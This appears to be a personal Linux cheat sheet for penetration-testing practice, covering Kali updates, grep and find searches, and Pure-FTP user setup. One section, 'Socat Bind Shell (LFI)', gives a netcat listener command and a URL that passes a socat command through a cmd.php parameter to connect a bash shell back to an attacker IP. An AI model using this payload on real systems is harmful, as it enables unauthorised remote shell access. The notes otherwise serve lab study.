 ```yaml
---
title: Linux Commands
layout: default
has_children: true
has_toc: false
published: false
nav_order: 1
parent: Cheat Sheets
---
```


# Helpful Linux Commands
## Kali Maintenance
Check current Kali Linux Version (Compare with release history here: https://www.kali.org/releases/)
```bash
hostnamectl
```
Update core and applications (more frequently):
```bash
sudo apt update && sudo apt upgrade -y && sudo apt autoremove && sudo apt autoclean
```
Update distribution (less frequently):
```bash
sudo apt dist-upgrade -y
```
## Grep
[Reference](https://linuxize.com/post/grep-exclude/)
Search multiple files for specific keywords. Note that 'access-logs' here is the folder in the current directory I wanted to search through. `r=recursive`, `i=ignore case sensitivity`
```bash
grep -ir 'OS{' 'access-logs'
```

Exclude lines w/ certain strings. IN this example, exclude any line containing 'nologin' in the file /etc/passwd':
```bash
grep -wv nologin /etc/passwd
```
To display only the lines that do not match a search pattern, use the `-v` ( or `--invert-match`) option.
The `-w` option tells `grep` to return only those lines where the specified string is a whole word (enclosed by non-word characters).

## find
*Best Solution*
This is pulling files *and* directories *and* discarding any 'permission denieds'
```bash
find /* 2>/dev/null | grep "keyword"
```
>I've had better luck lately with:
```bash
find / -name impacket
```
>You can also specify folder like:
```bash
find /etc -name hosts
```

>/* searches the whole box for files with "keyword" (not only that, but also searches for the keyword inside of files that it can read)

```bash
find /* | grep "keyword" 
```
## Socat Bind Shell (LFI)
Start listener on attacking machine:
```
nc -nvlp 60000
```
Input the following into the victim machine broswer:
```
http://192.168.122.52/cmd.php?&cmd=socat%20exec:%27bash%20-li%27,pty,stderr,setsid,sigint,sane%20tcp:192.168.119.122:60000
```
## Pure-FTP 
Add new Pure FTP User:
```
sudo pure-pw useradd username -u ftpuser -d /ftphome
sudo pure-pw mkdb
```

Restart Pure-FTP after updating the user database:
```bash
sudo pure-pw mkdb && service pure-ftpd restart
```

Change a Pure-FTP User's Password:
```
sudo pure-pw passwd {username}
[ENTER NEW PASSWORD WHEN PROMPTED x 2]
sudo pure-pw mkdb
sudo service pure-ftpd restart
```